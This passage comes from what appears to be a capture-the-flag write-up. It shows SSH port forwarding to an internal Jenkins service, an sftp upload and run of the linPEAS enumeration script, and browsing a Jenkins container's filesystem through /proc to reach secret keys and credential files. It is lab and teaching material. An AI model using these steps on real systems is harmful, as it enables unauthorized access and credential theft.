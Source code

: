 ```bash
root@kali:~/ctf# ssh -L 8888:127.0.0.1:8080 -N -f aubreanna@10.10.215.86
aubreanna@10.10.215.86's password:
```

![jenkins login](/img/internal_http_jenkins_login.png)

### Enumerating the aubreanna user

I, again, uploaded linPEAS to the `aubreanna` users home directory and reran the scan to see if anything else turned up.

```bash
root@kali:~/ctf# sftp aubreanna@10.10.215.86
aubreanna@10.10.215.86's password: 

Permission denied, please try again.
aubreanna@10.10.215.86's password: 
Connected to 10.10.215.86.
sftp> put /root/Desktop/PEASS/linPEAS/linpeas.sh 
Uploading /root/Desktop/PEASS/linPEAS/linpeas.sh to /home/aubreanna/linpeas.sh
/root/Desktop/PEASS/linPEAS/linpeas.sh
```

```bash
aubreanna@internal:~$ ./linpeas.sh > aubreanna_local_enum.txt
```

But upon further inspection found that it confirmed a lot of information that I had already known. However, I remembered that the jenkins container was running under the same uid as aubreanna and I decided to see if I could access any of the filesystem through `/proc`. I attempted to navigate to the jenkins process and found that I was able to access the root of the of the namespace where I was quickly able to leak the jenkins admin credentials.

```bash
aubreanna@internal:/proc/1506/root$ ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
aubreanna@internal:/proc/1506/root$ cd var/
aubreanna@internal:/proc/1506/root/var$ ls
backups  cache  jenkins_home  lib  local  lock  log  mail  opt  run  spool  tmp
aubreanna@internal:/proc/1506/root/var$ cd jenkins_home/
aubreanna@internal:/proc/1506/root/var/jenkins_home$ ls
com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml  identity.key.enc                                jobs              queue.xml.bak             updates
config.xml                                                                  jenkins.install.InstallUtil.lastExecVersion     logs              secret.key                userContent
copy_reference_file.log                                                     jenkins.install.UpgradeWizard.state             nodeMonitors.xml  secret.key.not-so-secret  users
hudson.model.UpdateCenter.xml                                               jenkins.model.JenkinsLocationConfiguration.xml  nodes             secrets                   war
hudson.plugins.git.GitTool.xml                                              jenkins.telemetry.Correlator.xml                plugins           tini_pub.gpg              workflow-libs
```
